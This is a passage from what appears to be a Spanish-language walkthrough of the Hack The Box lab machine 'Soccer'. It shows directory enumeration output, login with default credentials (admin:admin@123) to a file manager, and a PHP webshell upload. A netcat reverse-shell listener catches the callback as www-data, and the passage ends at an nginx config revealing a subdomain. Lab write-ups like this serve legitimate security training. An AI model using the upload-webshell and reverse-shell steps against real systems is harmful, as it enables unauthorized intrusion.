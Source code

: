 ~~~bash
──────────────────────────────────────────────────
404      GET        7l       12w      162c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET        7l       10w      162c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET      494l     1440w    96128c http://soccer.htb/ground3.jpg
200      GET      809l     5093w   490253c http://soccer.htb/ground1.jpg
200      GET     2232l     4070w   223875c http://soccer.htb/ground4.jpg
200      GET      711l     4253w   403502c http://soccer.htb/ground2.jpg
200      GET      147l      526w     6917c http://soccer.htb/
301      GET        7l       12w      178c http://soccer.htb/tiny => http://soccer.htb/tiny/
301      GET        7l       12w      178c http://soccer.htb/tiny/uploads => http://soccer.htb/tiny/uploads/
~~~
De dicha forma se encontro una pagina (/tiny) que se ve interesante a lo que se dirige a ella.
Viendo el contenido de la página, se puede ver que esta presenta un inicio de sesion, por lo que realizando una averiguacion de credenciales validas, se encuentran unas que parecen ser utiles (admin:admin@123).
Una vez dentro parece se un servicio para poder subir archivos a la página, por lo que se crea una shell en php básica.

![](soccer2.jpg)

Entrando primero a la carpeta "uploads" y seleccionando la accion "upload" se puede subir cualquier archivo en formato php, una vez dentro de envia una reverse shell y se logra entablar una sesion con el servidor.

![](soccer3.jpg)

~~~bash
sudo nc -nlvp 4433             
[sudo] password for kali: 
listening on [any] 4433 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.11.194] 53354
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
~~~

### Explotación con uso de la API
Con ello se tiene acceso al servidor como una cuenta de servicio que hostea la página, realizando enumeración básica, se puede ver que no hay nada importante como credenciales validas, pero esta abierto el servicio de mysql, por lo que buscando las carpetas de configuración de nginx se logró observar que presenta un subdominio que no se había contemplado.
~~~
www-data@soccer:/etc/nginx/sites-enabled$ cat soc-player.htb 
server {
        listen 80;
        listen [::]:80;

        server_name soc-player.soccer.htb;

~~~